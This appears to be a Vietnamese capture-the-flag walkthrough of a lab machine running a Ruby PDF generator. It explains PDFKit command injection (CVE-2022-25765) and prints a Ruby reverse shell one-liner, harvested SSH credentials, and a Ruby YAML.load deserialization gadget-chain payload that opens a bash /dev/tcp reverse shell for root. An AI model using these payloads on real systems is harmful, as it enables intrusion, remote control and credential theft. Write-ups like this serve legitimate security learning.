## Task 1


Chúng ta nhận được kết quả


Truy cập vào trang web chúng ta nhìn thêm được thông tin


> Phusion Passenger
## Task 2


Chúng ta thử bắt request và response thì nhận được kết quả


> X-Runtime
## Task 3


Chúng ta thử đưa một url để ứng dụng tiến hành download web page để gen thành file pdf, chúng ta chuẩn bị một server là một blank.html
```
touch blank.html
python3 -m http.server 8000
```
Chúng ta sẽ nhận được một file pdf với tên random các kí tự


Chúng ta thử dùng `exiftool` để đọc metadata


> pdfkit
## Task 4


### CVE-2022-25765
PDFKit là Ruby gem dùng **wkhtmltopdf** để convert HTML/URL thành PDF. Khi nhận URL từ user, nó truyền thẳng vào command line:
```ruby
# Bên trong pdfkit
command = "wkhtmltopdf #{url} output.pdf"
system(command)
```
Nếu URL chứa ký tự đặc biệt như backtick hoặc `$()`, shell sẽ **thực thi command bên trong**.
**Request bình thường:**
```
url=http://example.com
→ wkhtmltopdf http://example.com output.pdf
```
**Request exploit:**
```
url=http://example.com/?name=%20`id`
→ wkhtmltopdf http://example.com/?name= `id` output.pdf
→ Shell thực thi `id` → output nằm trong PDF
```
Điểm mấu chốt: `%20` (space) trước backtick khiến shell tách phần sau thành **command riêng**.
## Task 5


Thực Generation reverve shell
```ruby
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.245",4444))'
```
Sau khi bắt request và input payload chúng ta được kết nối


Chúng ta tìm trong các user thì phát hiện


>.bundle
## User Flag
Sau khi tìm hiểu thì tôi biết được rằng `bundle` là trình quản lý gói của ruby và có thể chứa các thông tin credentials

Chúng ta thu được account
```
henry / Q3c1AqGHtoI0aXAYFH
```

Thực hiện SSH sẽ thu được user.txt

## Task 7




> /usr/bin/ruby /opt/update_dependencies.rb
## Task 8


Đọc nội dung của file


> dependencies.yml
## Root Flag
Sau khi tìm hiểu thì vấn đề nằm ở `YAML.load()`:
- `!ruby/object:ClassName` là YAML tag cho phép **instantiate bất kỳ Ruby class nào**. `YAML.load()` xử lý tag này và tạo object thật → attacker chain nhiều object lại (gọi là **gadget chain**) để đạt được code execution.
- `YAML.safe_load()` chỉ cho phép basic types (string, number, array, hash) → không tạo được object → không RCE.

Tìm hiểu các PoC về lỗi này, chúng ta tìm được một bài chia sẻ https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/

Payload sẽ là
```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.245/4444 0>&1'"
         method_id: :resolve
```

Chúng ta sẽ tạo `dependencies.yml` ở thư mục home của henry thì không có đường dẫn tuyệt đối nên khi chạy script thì script sẽ tìm ngay thư mục được khởi chạy. Kích hoạt payload
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb 
```
Chúng ta có được root.txt

